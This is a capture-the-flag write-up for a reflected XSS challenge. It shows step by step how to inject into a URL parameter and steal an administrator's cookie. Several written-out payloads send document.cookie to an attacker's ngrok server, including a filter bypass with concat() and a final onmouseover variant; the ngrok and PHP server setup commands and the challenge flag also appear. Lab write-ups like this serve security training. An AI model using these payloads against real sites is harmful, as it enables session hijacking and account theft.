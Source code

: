 # XSS - Reflected

**Point**: 45 Points

**Title**: alert(’xtra stupid security’);

**Description**: Find a way to steal the administrator’s cookie. Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.

## Solution:

Let's meet a "normal" website. Now poking around with this. We can notice that all the link we accessed controlled by the parameter `p` in URL. This may be a typical XSS Reflected, try to change to our value instead. For example, `?p=hackingtutorial`

<p align="center"><img width=500px height=300px src="https://user-images.githubusercontent.com/48288606/159111674-22d747f9-47b9-4018-a419-28fbd9aff9de.png" /></p>

Comes up a 404 error site. Now inspect where our input string is shown up.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159111735-5a7f64bc-ebef-4b3c-90e3-e3b65bd4b6d1.png" /></p>

Check whether XSS is possible, escape with DOM-based and payload looks like this: `hacking' onclick='alert(1)`

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159111932-17dd56c1-983f-463b-ac4f-9d73dcb775ab.png" /></p>

Now this proves XSS can be in action. We have to delivery all collected cookie from victim (administrator) to a specific server that we take control. Payload will look like this:

```javascript
hacking' onclick='document.location="{your_server_link_site}?cookie=" + document.cookie;
```

Let's take action step-by-step:

1. Run PHP server with **localhost** and optional **port** without any content: `php -S localhost:4444 `

2. Public our server by tunneling. I use **ngrok** to serve this purpose:
   - Connect to ngrok with your account token: `ngrok authtoken {your_account_token}`
   - Tunneling our local site to public network with port specified above: `ngrok http 4444`
   - Get the public link we get from ngrok and create with payload above.
   <p align="center"><img src="https://user-images.githubusercontent.com/48288606/159112172-819bcfa6-65e2-410a-859f-2b0ead8a6e37.png" /></p>

3. Send our payload: `hacking` in **title** and 
```javascript
hacking' onclick='document.location="http://9e2d-113-161-77-200.ngrok.io?cookie=" + document.cookie;
``` 
When we click in the link, it doesn't direct to our server. Why?

<p align="center"><img width=500px height=300px  src="https://user-images.githubusercontent.com/48288606/159112318-8b72c5a6-9bb8-4c0a-9637-7af5962c15a6.png" /></p>

The plus symbol `+` has been filtered by the back-end server. We can bypass this by simply replace `+` with `concat()` function to combine 2 strings.

```javascript
hacking' onclick='document.location="http://9e2d-113-161-77-200.ngrok.io?cookie=".concat(document.cookie);
``` 
**NOTE: The payload above won't make the page direct to our site.** `onclick` **attribute will default open the link which is specified before** `hacking`. **So we have to ** `preventDefault()` at the end of our payload

```html
<a href="?p=hacking" onclick="document.location=&quot;http://9e2d-113-161-77-200.ngrok.io?cookie=&quot;.concat(document.cookie);">
  hacking' onclick='document.location="http://9e2d-113-161-77-200.ngrok.io?cookie=".concat(document.cookie);
</a>
```
Now we can click on the link to direct to our page.

Payload: 
```html
hacking' onclick='document.location="http://9e2d-113-161-77-200.ngrok.io?cookie=".concat(document.cookie);return false;`
```

We did it !

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159112967-a01d34f7-c21b-4f08-8579-5eecc2737c51.png" /></p>

Now we just send this link to administrator by click button "Report to the administrator"

Wait for the autobot to response for so long time! Maybe sth wrong ? Look back at the description, we forgot an important warning "Be careful, this administrator is aware of info security and he does not click on strange links that he could receive."

Now that's clear. It won't work because the admin won't click to that link. So we have to avoid event like `onclick`, take advantage of events for mouse like `onmousemove`, `onmouseout`, `onmouseover`, ... bla bla. (Fortunately, don't really mess with `preventDefault()` anymore

Final payload: 

```html
hacking' onmouseover='document.location="http://9e2d-113-161-77-200.ngrok.io?cookie=".concat(document.cookie);
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/159113493-f9a8d188-fbb8-434d-a533-f2ef16c4755e.png" /> </p>

The cookie create by **administrator** shown up in the request.

FLag: **r3fL3ct3D_XsS_fTw**

